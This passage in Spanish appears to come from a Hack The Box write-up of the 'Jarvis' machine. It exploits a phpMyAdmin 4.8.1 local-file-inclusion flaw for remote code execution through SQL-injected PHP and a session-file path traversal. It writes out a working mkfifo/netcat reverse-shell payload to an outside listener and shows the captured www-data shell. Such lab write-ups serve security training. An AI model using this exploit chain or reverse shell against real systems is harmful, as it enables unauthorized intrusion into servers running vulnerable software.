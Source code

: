 Vemos 2 los cuales parte de un LFI para obtener RCE y de una manera mejor explicada, podemos consultar el recurso [Vulnspy](https://www.vulnspy.com/phpmyadmin-4.8.1/) en donde nos indica que primero debemos contar con credenciales de acceso (ya las tenemos), después realizar la consulta SQL en donde vamos a insertar código php (en el ejemplo se pone `select '<?php phpinfo();exit;?>'`) en donde pondremos nuestro código malicioso; posteriormente consultamos una sesión generada a partir de la consulta utilizando el valor de la cookie **phpMyAdmin** (en el ejemplo nos indica que la ruta es `/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_[el_valor_de_la_cookie]`). Siguiendo dichos pasos, logramos ser el `phpinfo()`, por lo tanto ahora debemos entablarnos una reverse shell para ganar acceso a la máquina (**Nota**: Si tratamos de hacer lo indicado con el comando `phpinfo()`, es necesario salir de la sesión y volver a entrar al panel de login).

- Generamos nuestra reverse shell: `<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f");exit;?>`.
- Nos ponemos en escucha por el puerto 443: `nc -nlvp 443`
- Con el plugin **Edit this cookie** obtenemos nuestra cookie para el campo **phpMyAdmin**: glpacrhpqr2ancitvpu72p59j1jkljoc
- Ahora accedemos al siguiente recurso: **10.10.10.143/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_glpacrhpqr2ancitvpu72p59j1jkljoc**

![""](/assets/images/htb-jarvis/jarvis-cookie.png)

```bash
 ❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.143] 39822
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
